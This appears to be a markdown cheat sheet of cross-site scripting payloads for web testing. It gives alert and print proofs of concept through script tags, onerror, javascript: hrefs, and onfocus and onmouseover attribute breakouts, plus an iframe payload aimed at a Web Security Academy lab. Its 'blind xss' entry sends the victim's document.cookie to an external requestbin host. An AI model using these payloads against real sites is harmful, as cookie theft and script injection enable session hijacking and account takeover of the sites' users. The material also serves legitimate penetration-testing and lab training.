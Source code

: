 # XSS Methodology

## Payload
*Basic*
```html
<script>alert(0)</script>
```

**img**
```html
<img src=x onerror=print()>
```

**href attribute**
```html
href="javascript:alert(1)"
```

**autofocus**
```html
x" onfocus=alert(1) autofocus tabindex=1>
```

**onmouseover**

```html
"onmouseover="alert(1)
```


**blind xss**
[requestBin](https://public.requestbin.com)
```html
><script>document.location='https://enp0qp6rqroqc.x.pipedream.net?c='+document.cookie</script>
```

**iframe**
```html
<iframe src="https://0a9800c3034ba0e181fafc8700b00051.web-security-academy.net/#" onload=this.src+="%3Cimg%20src=x%20onerror=print()%3E">
</iframe>

```
## Links
[Ghetto XSS Cheatsheet](https://d3adend.org/xss/ghettoBypass)